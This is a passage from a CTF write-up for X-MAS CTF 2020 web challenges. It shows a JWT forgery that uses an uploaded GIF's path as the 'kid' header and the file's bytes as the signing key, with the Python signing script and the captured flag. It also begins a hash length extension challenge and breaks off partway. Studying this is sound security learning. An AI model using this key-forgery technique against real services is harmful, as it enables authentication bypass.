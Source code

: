 So, upload a photo using the file upload function, and when the kid points to the photo, you can sign using the binary value of the photo.<br><br>
![](https://github.com/wjddnjs33/image2/blob/main/스크린샷%202020-12-18%20오후%2010.04.11.png?raw=true)
I will make a gif file as above and use it.
![](https://github.com/wjddnjs33/image2/blob/main/스크린샷%202020-12-18%20오후%2010.06.13.png?raw=true)
So, when I uploaded the file, you can see the file was created with the path `/b/src/1608071199792.gif`. Now, if you give the above path as the `kid` value in the jwt header, you can use the `binary value of the above file` as the `secret key.`
```python
import jwt

with open('jwt.gif', 'rb') as fp:
    key = fp.read()

print(jwt.encode({'banner': 'flag.php'}, key, algorithm='HS256', headers={'kid': '/var/www/html/b/src/1608071199792.gif'}))
```
I wrote jwt Signing code as above.
![](https://github.com/wjddnjs33/image2/blob/main/스크린샷%202020-12-18%20오후%2010.10.23.png?raw=true)
If you run the code, you can see jwt appear as above.
![](https://github.com/wjddnjs33/image2/blob/main/스크린샷%202020-12-18%20오후%2010.12.08.png?raw=true)
When I decode jwt and check it, I can see that the value is well entered.
![](https://github.com/wjddnjs33/image2/blob/main/스크린샷%202020-12-18%20오후%2010.16.02.png?raw=true)
So when I send a request to getbanner.php using the above jwt, you can see that flag.php is displayed, not the picture.

`FLAG : X-MAS{n3v3r_trust_y0ur_us3rs_k1ds-b72dcf5a49498400}`

---
### (Web) World's most complex SQL Query 
<strong>Challenge Author :</strong> Milkdrop<br>
<strong>Category :</strong> WEB<br>
<strong>Points :</strong> 484<br>
<strong>Solves :</strong> 19<br>
<strong>TL;DR</strong> : SQL Query Analysis<br>


![](https://github.com/wjddnjs33/image/blob/main/스크린샷%202020-12-18%20오전%206.32.05.png?raw=true)

---
### (Web) cat_clicker
<strong>Challenge Author :</strong> yakuhito<br>
<strong>Category :</strong> WEB<br>
<strong>Points :</strong> 474<br>
<strong>Solves :</strong> 24<br>
<strong>TL;DR</strong> : hash length extension attack<br>


![](https://github.com/wjddnjs33/image/blob/main/스크린샷%202020-12-18%20오전%206.25.59.png?raw=true)
This time, we will solve the problem called `Cat Clicker` among web problems from X-MAS CTF 2020.
![](https://github.com/wjddnjs33/image2/blob/main/스크린샷%202020-12-18%20오후%2010.43.58.png?raw=true)
When it comes to problems, there is logic to buy flags using the number of cats. The fake flag seems to be available for purchase if you have one cat and the real flag is 13 cats.
![](https://github.com/wjddnjs33/image2/blob/main/스크린샷%202020-12-18%20오후%2010.47.06.png?raw=true)
You can increase the number of cats by clicking on the face, but it seems like 12 is the maximum.
```
state : 12 | 0
hash : cf13ab76afb625f7f7d6c539c2cb3c84

state : 12 | 1
```